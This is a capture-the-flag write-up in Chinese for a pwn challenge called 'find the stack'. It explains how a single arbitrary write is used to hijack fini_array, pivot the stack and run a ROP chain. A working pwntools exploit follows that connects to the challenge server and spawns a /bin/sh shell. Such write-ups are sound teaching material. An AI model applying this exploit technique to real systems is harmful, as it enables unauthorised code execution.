 # find the stack

## 保护机制

![image-20230419205722961](C:\Users\24971\AppData\Roaming\Typora\typora-user-images\image-20230419205722961.png)

## 代码分析

![image-20230419214810035](C:\Users\24971\AppData\Roaming\Typora\typora-user-images\image-20230419214810035.png)

可以发现有一次0x80大小的任意地址写，但是因为栈地址不知道，也没有办法泄露，所以我们采用fini_array数组，当main函数执行完会执行fini函数

![image-20230419215008569](C:\Users\24971\AppData\Roaming\Typora\typora-user-images\image-20230419215008569.png)

通过该函数的汇编语言我们可以看出会从大到小地一一执行fini_array数组里保存的函数，那么我们修改这个数组的内容就可以劫持执行流了，可以发现他还修改了rbp到这个数组附近，那我们把栈迁移过去就可以执行rop链了

```python
from pwn import*
from time import*
#p=process('./stack')
p=remote('101.42.48.14',8092)
#sleep(5)
fh=0x6ca0a8
fini_array=0x6c9ef0
main=0x400a22
pop_rax=0x41f5b4
pop_rdi=0x401686
pop_rdx_rsi=0x442a69
syscall=0x4676d5
binsh=fh+0x40
leave_ret=0x400a67
ret=0x4002e1
def write(add,context):
	p.recvuntil('stack:\n')
	p.send(p64(add))
	p.recvuntil('stack:\n')
	p.send(context)
print(hex(leave_ret))
write(fini_array,p64(main))
write(fh,p64(pop_rax)+p64(0x3b)+p64(pop_rdi)+p64(binsh)+p64(pop_rdx_rsi)+p64(0)+p64(0)+p64(syscall)+'/bin/sh\x00')
p.interactive()

```

